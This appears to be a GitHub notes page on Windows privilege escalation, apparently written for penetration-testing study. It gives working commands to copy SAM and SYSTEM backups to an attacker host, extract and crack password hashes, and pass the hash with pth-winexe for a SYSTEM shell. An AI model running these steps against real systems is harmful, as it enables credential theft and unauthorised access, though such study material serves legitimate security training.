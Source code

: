 ## SAM

Windows store password hashes in the Security Account Manager(SAM). The hashes are encrypted with a key which can be found in a
file named SYSTEM. If you have the ability to read the SAM and SYSTEM files, you can extract the hashes. The files are locked while Windows is running.
Backups of the files may exist in the C:\Windows\Repair
or C:\Windows\System32\config\RegBack directories.

### Privilege Esclations:
```bash
1. Backups of the SAM and SYSTEM files can be found in C:\Windows\Repair and are readable by our user.
2. Copy the files back to Kali:
> copy C:\Windows\Repair\SAM \\192.168.1.11\tools\
> copy C:\Windows\Repair\SYSTEM \\192.168.1.11\tools\
3. Download the latest version of the creddump suite:
# git clone https://github.com/Neohapsis/creddump7.git
4. Run the pwdump tool against the SAM and SYSTEM files to extract the hashes:
# python2 creddump7/pwdump.py SYSTEM SAM
5. Crack the admin user hash using hashcat:
# hashcat -m 1000 --force a9fdfa038c4b75ebc76dc855dd74f0da /usr/share/wordlists/rockyou.txt
```

## Passing the Hash
Windows accepts hashes instead of passwords to authenticate to a number of services. We can use a modified version of winexe, pth-winexe to spawn a command prompt using the admin user’s hash.

### Privilege Escalations:
```bash
1. Extract the admin hash from the SAM in the previous step.
2. Use the hash with pth-winexe to spawn a command prompt:
# pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //192.168.1.22 cmd.exe
3. Use the hash with pth-winexe to spawn a SYSTEM level command prompt:
# pth-winexe --system -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //192.168.1.22 cmd.exe
```

### Scheduled Tasks
Windows can be configured to run tasks at specific times, periodically (e.g. every 5 mins) or when triggered by some event (e.g. a user logon). Tasks usually run with the privileges of the user who created them, however administrators can configure tasks to run as other users, including SYSTEM.

Unfortunately, there is no easy method for enumerating custom tasks that belong to other users as a low privileged user account.
List all scheduled tasks your user can see:
```bash
> schtasks /query /fo LIST /v
```
